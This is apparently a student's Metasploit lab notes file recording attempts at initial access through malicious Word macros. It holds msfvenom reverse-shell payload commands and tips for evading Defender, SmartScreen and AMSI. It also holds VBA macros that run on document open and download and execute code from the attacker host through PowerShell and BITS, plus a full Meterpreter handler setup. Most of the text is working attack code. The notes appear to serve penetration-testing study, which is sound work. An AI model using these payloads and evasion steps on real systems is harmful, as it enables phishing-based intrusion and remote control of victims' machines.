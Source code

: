 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript migrate -n explorer.exe
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
#### Worksss!! Marco Initial access works
1. Create [shell code runner](/msf/shellrunner.vba) VBA Marco using CreateThread-> execute the shell code, VirtualAlloc-> allocate memeory space for shell code, RtlMoveMemory->copy shell code into memory space

the staged VBA shell code can be generated from msfvenom command 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Copy VBA shell code into the [C# caesar cipher](/msf/caesar_cipher.cs) to encode the shell code, compile, run the program and copy output back to VBA marco 
3. Set up the msf c2
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost yourip
set lport 443
set enablestageencoding true
set stageencoder x86/xor_dynamic
set AutoRunScript migrate -n explorer.exe
run -j
```
